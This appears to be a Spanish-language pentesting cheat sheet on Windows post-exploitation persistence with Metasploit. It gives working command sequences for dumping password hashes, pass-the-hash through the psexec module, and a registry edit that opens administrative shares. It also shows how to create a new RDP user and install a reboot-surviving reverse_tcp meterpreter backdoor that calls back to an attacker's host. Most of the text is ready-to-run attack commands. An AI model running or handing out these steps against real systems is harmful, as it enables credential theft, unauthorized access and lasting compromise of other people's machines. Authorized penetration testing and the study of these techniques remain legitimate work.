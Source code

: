 - Persistencia

Se puede hacer mediante servicios de acceso remoto o mediante backdoors, creando nuevos usuarios, editando servicios o instalando nuevas vulnerabilidades en el sistema.

**UNA VEZ OBTENIDA SESIÓN CON PRIVILEGIOS**

- **PSEXEC PASS THE HASH**

Primero migramos a un proceso más estable.

```
getpid #para ver proceso de nuestro meterpreter
ps #para ver todos los procesos e identificarlo
migrate pid #svchost por ejemplo
```

Ahora sacamos los hashes de las contraseñas de los users. Podríamos sacar contraseñas de servicios, usuarios, y luego hacer pass the hash, o crackearlos. En este caso probamos pass the hash.

```
hashdump #y copiarlo como sale el output a un archivo.
```

ó

```
run post/windows/gather/smart_hashdump
background
creds #saca las credenciales conseguidas con smart_hashdump que se encuentren en la base de datos.
```

PARA HACER EL PASS THE HASH PODEMOS USAR PSEXEC o el módulo de psexec de metasploit.

```
use exploit/windows/smb/psexec
options
set rhost IPobj
set smbuser x
set smbpass x #(del mismo user, probar el hash)
exploit
```

Si nos da el error STATUS_ACCESS_DENIED quiere decir que no tenemos acceso a SHARES DE ADMINISTRADOR.

Volvemos a la sesión anterior de meterpreter e introducimos este comando

```
reg setval -k 'HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1

background
```

Lanzamos otra vez el exploit de psexec y ya tenemos persistencia con ese usuario.

- **Persistencia via RDP (necesita pass en texto plano)**

Si no conseguimos crackear los hashes o sacar las pass con mimikatz, podemos añadir un nuevo usuario.

En meterpreter:

```
run getgui -e -u usernuevo -p passusernuevo #activamos rdp y creamos un usuario
EN OTRA SHELL: xfreerdp /v:IPobj /u:usernuevo /p:passusernuevo
```

- **PERSISTENCIA CON BACKDOOR (Metasploit)**

Hacemos lo siguiente:

```
background #sesion de metasploit
search persistence #tenemos varios modulos
use exploit/windows/local/persistence
options
set session nº #la que sea del pc víctima
set STARTUP SYSTEM
set payload windows/meterpreter/reverse_tcp
set LHOST IPkali
set LPORT random #en pentest real usar 80 y 443
exploit

```

El backdoor va a funcionar aunque se reinicie el ordenador.

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost eldelbackdoor
set lport eldelbackdoor
run
```

